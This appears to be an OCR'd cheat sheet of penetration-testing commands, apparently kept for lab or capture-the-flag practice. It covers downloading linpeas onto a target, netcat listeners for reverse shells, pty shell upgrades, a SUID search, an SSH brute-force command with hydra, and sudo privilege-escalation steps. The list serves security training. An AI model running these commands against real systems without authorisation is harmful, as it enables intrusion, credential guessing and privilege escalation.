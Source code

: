 1. wget http://192.168.2.4/linpeas.sh - Downloading linpeas on target machine
2. python3 -m http.server 80 - setting up a server
3. nc -lvnp 4444 - Set netcat listener
4. python -c 'import pty; pty.spawn("/bin/sh")' - upgrading shell
5. find / -perm /4000 -type f 2>/tmp/2 - checking SUID
6. sudo netdiscover -i eth0 - Checking Devices on the network
7. nc -nvlp 1234 - Set netcat listener
8. https://gtfobins.github.io/ -- For privilage escalation
9. python3 -c 'import pty;pty.spawn("/bin/bash")' -- upgrading shell
10. sudo -l -- Check User Permissions
11. hydra -L <userlist> -P <passwordlist> ssh://<ipaddress> (can add T4 to make it faster and -f to stop
the scan after the password is found.
12. sudo -l
13. sudo su 
